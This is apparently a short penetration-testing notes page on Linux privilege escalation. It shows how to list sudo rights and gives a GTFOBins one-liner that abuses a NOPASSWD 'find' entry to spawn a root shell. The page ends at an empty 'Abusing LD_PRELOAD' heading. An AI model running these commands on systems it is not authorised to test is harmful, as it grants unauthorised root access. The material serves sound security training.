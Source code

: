 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Techniques

## <mark style="color:purple;">Abusing Sudo execution permissions</mark>

* Verify which commands can be run with sudo

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ sudo -l
#Example results
User user may run the following commands on host:
    (ALL) NOPASSWD: /usr/bin/find
```
{% endcode %}

{% hint style="info" %}
`find` is used as example, can be any other command
{% endhint %}

***

* Check binary Sudo abuse on _GTFOBins_ Uand use it on target machine to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo find . -exec /bin/sh \; -quit
#This will return a rott shell
```
{% endcode %}

***



## <mark style="color:purple;">Abusing LD\_PRELOAD</mark>
